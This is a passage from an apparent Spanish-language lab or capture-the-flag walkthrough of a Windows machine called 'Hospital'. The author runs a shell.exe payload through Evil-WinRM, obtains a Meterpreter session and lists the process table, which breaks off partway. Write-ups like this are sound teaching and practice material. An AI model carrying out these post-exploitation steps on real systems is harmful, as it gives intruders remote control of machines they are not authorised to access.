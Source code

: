 - Ahora ejecutamos el `.exe`.

```bash
*Evil-WinRM* PS C:\Users\drbrown.HOSPITAL\Desktop> .\shell.exe
```

- Ahora ya obtenemos una conexión, vamos a ver los procesos que se están corriendo.

```bash
meterpreter > ps

Process List
============

 PID   PPID  Name       Arch  Session  User            Path
 ---   ----  ----       ----  -------  ----            ----
 0     0     [System P
             rocess]
 4     0     System
 48    4     Secure Sy
             stem
 92    4     Registry
 336   4     smss.exe
 364   656   svchost.e
             xe
 368   656   svchost.e
             xe
 380   656   svchost.e
             xe
 416   408   csrss.exe
 516   616   dwm.exe
 520   408   wininit.e
             xe
 528   512   csrss.exe
 616   512   winlogon.
             exe
 656   520   services.
             exe
 676   520   LsaIso.ex
             e
 684   520   lsass.exe
 784   656   svchost.e
             xe
 852   656   VGAuthSer
             vice.exe
 892   656   svchost.e
             xe
 900   656   svchost.e
             xe
 912   656   svchost.e
             xe
 952   656   svchost.e
             xe
 996   656   svchost.e
             xe
 1016  656   svchost.e
             xe
 1052  656   svchost.e
             xe
 1072  656   svchost.e
             xe
 1116  656   svchost.e
             xe
 1164  656   svchost.e
             xe
```